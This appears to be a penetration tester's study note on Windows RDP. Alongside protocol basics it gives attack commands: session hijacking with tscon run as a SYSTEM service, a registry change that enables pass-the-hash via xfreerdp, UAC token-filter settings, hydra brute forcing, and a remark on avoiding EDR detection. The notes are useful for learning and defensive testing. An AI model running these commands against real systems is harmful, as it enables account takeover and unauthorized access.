 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*Remote Desktop Protocol* (*RDP*) is a protocol for accessing a windows system remotely. It transmits display and control commands via a GUI over an encrypted TCP connection.

**Standard Port:** 
- 3389/tcp
- 3389/udp

| service name | releases link | notes |
| ------------ | ------------- | ----- |
|              |               |       |
## How it works
- Supports TLS/SSL but many windows systems don't insist it must be used. 
- By default the certificates are self-signed.
- It comes installed on windows by default. Activated using the *Server Manager*.
- Defaults to only allowing connections from hosts with [Network level authentication](https://en.wikipedia.org/wiki/Network_Level_Authentication) (*NLA*).

## Configuration


## Potential Capabilities
- Remote GUI access to a windows target
- RDP Session Hijacking

### RDP Session Hijacking
If we have a compromised `SYSTEM` account we can use this privilege to hijack another user's session with [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) (*this might let us gain access to a domain admin for example*).
```PowerShell
# Get all the users that have desktop sessions (shows us their session IDs)
PS C:\> query user

# Connect another user's session to our current one
PS C:\> tscon [TARGET_SESSION_ID] /dest:[OUR_SESSION_NAME]
```

We can use the [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) to create a new service running as the `Local System` user to perform our goal:
```cmd
C:\> sc.exe create [service_name] binpath= "[command_to_run]"
C:\> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

C:\> net start sessionhijack
```
> Also works in PS
> Patched: no longer works on Server 2019 :(

### PtH via RDP (Linux)
Under certain circumstances, PtH can be achieved via RDP to gain GUI access using a tool like [[xfreerdp]].
- `Restricted Admin Mode` must be enabled (*disabled by default*) on the target host.
	- The `DisableRestrictedAdmin` (*REG_DWORD*) key can be added to the `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value 0.
	- `C:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`
Once enabled, we can use [[xfreerdp]] and the `/pth` option to gain access
```sh
$ xfreerdp /v:[target_ip] /u:[user] /pth:[hash]
```
User Account Control (UAC) can limit a local user's ability to perform remote administration operations. If the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, only the built-in local admin can perform these operations. Setting it to 1 will allow other local admins.
> If the registry key `FilterAdministratorToken` is enabled (set to 1, but *disabled by default*) then even the RID 500 account is restricted. Meaning remote PTH will fail against even this account.

These settings only apply to local administrator accounts however, domain accounts with admin rights on the system can still be exploited using PtH.
## Enumeration Checklist

| Goal                | Command(s)                                                                    | Refs                                                                                                                                                               |
| ------------------- | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| General Information | sudo nmap [ip] -sV -sC -p3389 --script rdp*                                   |                                                                                                                                                                    |
| RDP security check  | sudo cpan<br>rdp-sec-check.pl [ip]<br>                                        | [rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check)                                                                                               |
| RDP Bruteforce      | hydra -L [user_list] -P [pass_list] rdp://[ip]                                | [[Hydra]]<br>> this can cause account lockouts, so password-spraying attacks are preferred ([Crowbar](https://github.com/galkan/crowbar) can be used for this too) |
| Connect to an RDP   | xfreerdp /u:[user] /p:[pass] /v:[ip]<br><br>rdesktop -u [user] -p [pass] [ip] |                                                                                                                                                                    |
> Nmap uses the cookie `mstshash=nmap` on RDP connections. This can be identified by threat hunters or EDRs that could result in us getting blocked.
### Nmap Scripts
- rdp-*
- rdp-enum-encryption
- rdp-ntlm-info
